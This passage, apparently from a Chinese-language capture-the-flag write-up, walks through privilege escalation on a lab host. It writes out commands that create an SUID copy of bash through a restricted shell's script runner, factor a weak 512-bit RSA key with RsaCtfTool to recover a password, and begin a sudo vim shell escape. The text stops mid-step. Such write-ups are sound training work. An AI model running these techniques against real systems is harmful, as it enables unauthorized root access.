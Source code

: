 运行 `/home/mitnick/sas` 后进入一个受限的自定义shell。该shell内置了 `run` 命令，可以执行外部脚本。

1. 在 `/tmp` 目录创建一个脚本，用于复制 `/bin/bash` 并为其赋予SUID权限。

   ```bash
   love@osiris:/tmp$ echo 'cp /bin/bash /tmp/sh; chmod +s /tmp/sh' > a.sh
   love@osiris:/tmp$ chmod +x a.sh
   ```

2. 通过 `sas` shell执行该脚本。

   ```bash
   love@osiris:~$ sudo -u mitnick /home/mitnick/sas
   # run /tmp/a.sh
   ```

3. 执行 `/tmp/sh -p`，成功获得 `mitnick` 用户的有效权限。

## **3. mitnick -> tomu**

在 `mitnick` 用户的家目录下，发现一个公钥文件 `publickey.pub` 和一个加密文件 `secret.enc`。通过查看`publickey.pub`可以发现这是一个非常短的 RSA 公钥，长度只有 **512 位**，这意味着**可以用 RSA 因数分解攻击直接爆破私钥**。

1. 将这两个文件传输到本地Kali攻击机。

2. 使用 `RsaCtfTool` 工具，利用公钥来解密文件。

   ```bash
   ┌──(kali㉿kali)-[~]
   └─$ RsaCtfTool --publickey publickey.pub --decryptfile secret.enc --private
   ...
   utf-8 : sh1m0mur4Bl4ckh4t
   ...
   ```

3. 成功解密出密码：`sh1m0mur4Bl4ckh4t`。

4. 在 `/home` 目录下发现另一用户 `tomu`。使用刚解出的密码成功切换到 `tomu` 用户。

## **4. tomu -> root**

在 `tomu` 用户的Shell中，再次执行 `sudo -l`，发现可以免密以 `root` 身份运行 `/opt/Contempt/Contempt`。

```bash
tomu@osiris:~$ sudo -l
...
User tomu may run the following commands on osiris:
    (root) /opt/Contempt/Contempt
```

执行该程序后，出现一个菜单。选择 `2` (Ayuda) 会使用 `vim` 打开帮助文档。`vim` 在以`sudo`权限运行时，可以通过内部命令逃逸到shell。

1. 执行提权命令。

   ```bash
   tomu@osiris:~$ sudo /opt/Contempt/Contempt
   ```

2. 在程序菜单中选择 `2`，进入 `vim` 界面。
